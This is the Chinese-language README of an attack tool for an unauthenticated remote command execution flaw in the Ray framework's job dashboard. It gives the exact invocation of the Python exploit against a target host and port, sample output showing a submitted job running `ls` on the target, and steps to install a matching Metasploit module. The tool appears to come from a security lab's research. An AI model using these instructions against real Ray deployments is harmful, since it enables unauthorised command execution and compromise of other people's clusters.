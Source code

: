 # Ray 框架攻击工具

## 简介：
该工具主要用于攻击利用Ray框架的未授权任意命令可执行漏洞


## 文件说明
- exp.py 该文件是漏洞利用脚本
- ray_job_rce.rb 该文件是MSF漏洞利用脚本


## 脚本利用说明
###. exp.py 脚本利用

####命令： 

python3 exp.py --host http://10.0.2.15:8265 --cmd '<cmd>' 

####运行效果示例： 
(ray) yzj@ldd:~/桌面/python_venv/ray_test$ python exp.py --host http://10.0.2.15:8265 --cmd "ls"
2024-12-20 10:22:02,927	INFO dashboard_sdk.py:385 -- Package gcs://_ray_pkg_a8c1209a54fc7117.zip already exists, skipping upload.
Submitted job ID: raysubmit_TexMZXn7P5GuRTS9
Status: PENDING
Status: PENDING
Status: PENDING
Status: PENDING
Status: RUNNING
Status: SUCCEEDED
2024-12-20 10:22:03,136	INFO job_manager.py:530 -- Runtime env is setting up.
exp.py
poc2.py
poc.py


###. ray_job_rce.rb 脚本利用

####命令： 

cp ray_job_rce.rb /usr/share/metasploit-framework/modules/exploits/multi/misc/

然后运行msfconsole后，即可按照常规攻击方法开展



## 关于
针对该工具的使用，如存在疑问，请联系亚信安全人工智能安全实验室